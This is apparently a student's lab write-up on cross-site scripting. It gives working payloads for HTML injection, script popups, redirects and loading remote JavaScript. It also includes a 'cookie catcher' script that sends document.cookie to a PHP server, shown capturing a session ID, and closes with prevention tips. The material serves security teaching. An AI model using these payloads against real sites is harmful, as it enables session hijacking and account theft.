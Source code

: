 # XSS

Challenge 1: Site Defacing / HTML Injections

1. Set the background to a different color
2. Display another image on the website
3. Create a link on the website

Challenge 2: JavaScript / Cross Site Scripting

1. Popup: Display a message to the client
2. Redirect the client to some other website
3. Create a session with the server and display the current sesssion ID
4. Try to load JS code from a different web source into the website

Challenge 3: Javascript / Cookie Catcher

1. Write a "Cookie Catcher", Clientside: Javascript, Backend: PHP

## Challenge 1

1. name: `<style>body { background-color: black; }</style>`

    ![image1-1](images/1-1.png)

2. name: `<img src="https://cdn.vox-cdn.com/thumbor/6bvYA8Z7hBRrMJ965Rb20uKB628=/0x0:1192x795/1200x628/filters:focal(596x398:597x399)/cdn.vox-cdn.com/uploads/chorus_asset/file/22312759/rickroll_4k.jpg">`

    ![image1-2](images/1-2.png)

3. name: `<br/><a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">Click here for free stuff!</a>`

    ![image1-3](images/1-3.png)

    Here, I used `<br/>` to add a newline.

## Challenge 2

1. name: `<script>alert('Hello!');</script>`

    ![image2-1](images/2-1.png)

2. name: `<script>window.location.href = 'https://www.youtube.com/watch?v=dQw4w9WgXcQ';</script>`

3. name: `<script>alert(document.cookie);</script>`
    
    ![image2-3](images/2-3.png)

4. name: `<script src="https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js"></script>`
    
    ![image2-4](images/2-4.png)

## Challenge 3

Install PHP and then run a PHP development server in the HW3 folder using `php -S localhost:8000`.

Then, in the website, write:

name: `<script>var img = new Image(); img.src = 'http://localhost:8000/cookie.php?cookie=' + encodeURIComponent(document.cookie);</script>`

You will receive a request similar to this on your PHP server:

`[Sun Jul  7 15:37:14 2024] 127.0.0.1:48536 [200]: GET /cookie.php?cookie=PHPSESSID%3Duh0o7tbpta72h7am76rssllpae`

And the file `cookies.log` will be created with the cookie.

### Prevention

- Input validation and sanitization.
- Whitelist/blacklist certain characters in user inputs.
- Use HTTPOnly cookies to prevent client-side scripts from capturing cookies.
- Use Content Security Policy (CSP) headers to restrict the sources from which the website can load content.
- Conduct regular security audits.